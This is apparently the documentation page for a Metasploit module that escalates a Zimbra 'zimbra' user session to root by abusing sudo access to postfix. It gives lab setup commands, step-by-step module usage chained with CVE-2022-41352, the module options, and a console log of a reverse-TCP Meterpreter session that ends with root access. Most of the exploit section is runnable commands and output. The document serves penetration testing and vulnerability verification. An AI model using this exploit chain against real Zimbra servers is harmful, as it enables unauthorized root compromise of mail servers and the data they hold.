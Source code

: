 ## Vulnerable Application

Currently, as of 2022-10-14, all versions of Zimbra are vulnerable. Presumably
they'll patch it eventually - I reported it to Zimbra.

## Verification Steps

### Install Zimbra

My steps to install Zimbra (adapted from Christophe):

--

Create a VM with the following specs:

```
HDD = 128gb
Memory/etc don't matter
```

Install a local DNS server (note: replace `<ip>` with the host's actual ip) (other note: replace `apt` with `yum` to do this on a Red Hat-derived system):

```
sudo apt update && sudo apt install dnsmasq
sudo hostnamectl set-hostname mail.example.org
echo "<ip> mail.example.org" | sudo tee -a /etc/hosts
echo -e 'listen-address=127.0.0.1\nserver=8.8.8.8\ndomain=example.org\nmx-host=example.org, mail.example.org, 5\nmx-host=mail.example.org, mail.example.org, 5' | sudo tee /etc/dnsmasq.conf
```

Configure the host to use it:

```
sudo systemctl disable systemd-resolved
sudo systemctl stop systemd-resolved
sudo killall dnsmasq # Seems to be required for Red Hat OSes
sudo systemctl restart dnsmasq
echo "nameserver 127.0.0.1" | sudo tee /etc/resolv.conf
```

Download Zimbra from https://www.zimbra.com/downloads/zimbra-collaboration-open-source/ - you'll have to sell your soul and opt-in to spam, but they don't validate your email.

```
tar -xvvzf zcs-*.tgz
cd zcs*
sudo ./install.sh

* Lots of <enter>
* DO NOT install `dnscache` module (respond `N` when it ask), I had conflict issues with the local `dnsmasq`
* Yes change the system
* Setup the admin password, probably turn off auto-updates
```

### Exploit

Get a Meterpreter session on the Zimbra server as the `zimbra` user - I used
`exploit/linux/http/zimbra_cpio_cve_2022_41352` but just running a Meterpreter
binary is also fine. To become vulnerable to cve-2022-41352, just `rm $(which pax)`
then reboot.

From there, 

You can obviously get a shell however you like. :)

Then:

* [] use exploit/linux/local/zimbra_postfix_priv_esc
* [] set SESSION 1
* [] set RHOSTS <target>
* [] set LHOST <listenerip>
* [] exploit

## Options

### SUDO_PATH

The path to `sudo` on the host. If we have a proper environment with `$PATH` set, which we generally do, simply `sudo` is fine.

### ZIMBRA_BASE

The base where Zimbra is installed. Zimbra typically installs to `/opt/zimbra`, and I'm not even sure if it _can_ install elsewhere, so this default should be fine.

### WritableDir

A directory where we can write the payload - by default, `/tmp`.

### PayloadFilename

A specific filename to use as the payload, within `WritableDir`. By default, it's randomized (with a `.` in front)

## Scenarios

### Escalating a `zimbra` session to `root`, after exploiting cve-2022-41352

```
msf6 exploit(linux/http/zimbra_cpio_cve_2022_41352) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information                Connection
  --  ----  ----                   -----------                ----------
  1         meterpreter x64/linux  zimbra @ mail.example.org  172.16.166.147:4444 -> 172.16.166.157:47210 (172.16.166.157)

msf6 exploit(linux/http/zimbra_cpio_cve_2022_41352) > use exploit/linux/local/zimbra_postfix_priv_esc
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/zimbra_postfix_priv_esc) > set SESSION 1
SESSION => 1
msf6 exploit(linux/local/zimbra_postfix_priv_esc) > exploit

[*] Started reverse TCP handler on 172.16.166.147:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Sending stage (3045348 bytes) to 172.16.166.157
[*] Executing: sudo -n -l
[+] The target appears to be vulnerable.
[*] Creating exploit directory: /tmp/.GPjXSraCDY
[*] Writing '/tmp/.GPjXSraCDY/.qjSY8' (250 bytes) ...
[*] Attempting to trigger payload: sudo /opt/zimbra/common/sbin/postfix -D -v /tmp/.GPjXSraCDY/.qjSY8
[*] Sending stage (3045348 bytes) to 172.16.166.157
[+] Deleted /tmp/.GPjXSraCDY
[*] Meterpreter session 5 opened (172.16.166.147:4444 -> 172.16.166.157:36488) at 2022-10-14 13:19:25 -0700

meterpreter > getuid
Server username: root
```
